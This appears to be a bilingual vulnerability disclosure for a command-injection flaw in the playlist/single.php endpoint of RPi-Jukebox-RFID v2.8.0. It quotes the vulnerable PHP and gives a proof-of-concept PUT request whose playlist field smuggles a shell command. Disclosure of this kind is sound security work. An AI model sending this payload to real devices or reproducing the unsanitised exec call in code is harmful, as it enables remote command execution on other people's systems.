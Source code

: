 # RCE vulnerability in [RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID) v2.8.0 of file /single.php

**vender**:

- [MiczFlor/RPi-Jukebox-RFID: A Raspberry Pi jukebox, playing local music, podcasts, web radio and streams triggered by RFID cards, web app or home automation. All plug and play via USB. GPIO scripts available.](https://github.com/MiczFlor/RPi-Jukebox-RFID)

**SoftLink**:

- [Release v2.8.0: Fix Spotify Authentication · MiczFlor/RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID/releases/tag/v2.8.0)

**Vulnerable File**

- /htdocs/api/playlist/single.php

**Version**

- 2.8.0

### Analyse

```php
/ 在 single.php 中
$playlist = $json['playlist'];
$shuffle = $json['single'];
if ($shuffle === 'true') {
    execScript("single_play.sh -c=singleenable -d='{$playlist}'");
} else {
    execScript("single_play.sh -c=singledisable -d='{$playlist}'");
}
```

这里的 `$playlist` 变量来自用户输入，并且没有进行足够的过滤就被拼接到命令中。

## POC

对于 `single.php`：

```http
PUT /api/playlist/single.php HTTP/1.1
Host: 192.168.129.130
Content-Type: application/json
Content-Length: 69

{
  "playlist": "test';id>2.txt;echo '123",
  "single": "true"
}
```



![image-20250828230503530](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508282305582.png)



![image-20250828231300334](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508282313232.png)
